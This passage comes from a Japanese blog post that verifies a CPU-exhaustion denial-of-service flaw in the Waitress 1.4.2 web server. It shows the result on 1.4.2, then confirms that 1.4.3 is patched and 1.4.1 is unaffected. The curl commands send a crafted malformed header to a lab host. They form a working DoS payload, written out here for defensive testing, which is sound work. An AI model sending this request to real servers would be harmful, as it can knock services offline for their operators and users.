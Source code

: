 　応答時間は`約54秒`でした。  
まだ比較対象はありませんが、Waitress  + Bottleのサンプルアプリケーションの応答時間であることを考えると<span class="m-y">非常に遅く</span>なっています。  

　サーバ側のCPU使用率を見てみると100%になっていました。  
応答を返すと普通の状態に戻りましたが、攻撃の容易さを考えると非常に危険な脆弱性であることが分かります。  
<figure class="figure-image figure-image-fotolife" title="CPU使用率 100%">[f:id:motikan2010:20200205222612p:plain:w500]<figcaption>CPU使用率 100%</figcaption></figure>

#### パッチ適用バージョン 1.4.3

　今度はパッチが適用されているバージョンである`1.4.3`に対して検証を行い、脆弱性が修正されていることを確認します。  

　以下のコマンドで Waitress のバージョンを`1.4.3`に変更しています。
<div class="sm-code">
```
$ cd libs/
$ rm -rf waitress/
$ curl -sL https://github.com/Pylons/waitress/archive/v1.4.3.tar.gz | tar xz --strip=1 waitress-1.4.3/waitress
```
</div>  

　先ほどと同じリクエストを送信してみます。  
今度は応答時間が`0.026秒`でした。CPU使用率を見てみてもリクエスト送信前と変化はなく、<span class="m-y">本脆弱性は修正されている</span>ということが確認できました。  
<div class="sm-code">
```
$ time curl "http://192.168.56.13:8080/hello/hogefuga" -H "Bad-header: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`echo -n '\x10'`"
Bad Request

Invalid header

(generated by waitress)curl "http://192.168.56.13:8080/hello/hogefuga" -H   0.01s user 0.01s system 44% cpu 0.026 total
```
</div>

#### 脆弱性が存在しないバージョン 1.4.1

　本脆弱性はバージョン`1.4.2`のみに存在しているとのことでしたが、ついでにバージョン`1.4.1`でも試してみました。  

　応答時間は`0.043秒`であり<span class="m-y">情報通り脆弱性は存在していない</span>バージョンとなっていました。  
<div class="sm-code">
```
$ time curl "http://192.168.56.13:8080/hello/hogefuga" -H "Bad-header: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`echo -n '\x10'`"
Bad Request

Invalid header

(generated by waitress)curl "http://192.168.56.13:8080/hello/hogefuga" -H   0.01s user 0.01s system 24% cpu 0.043 total
```
</div>

## 脆弱性を掘り下げる
　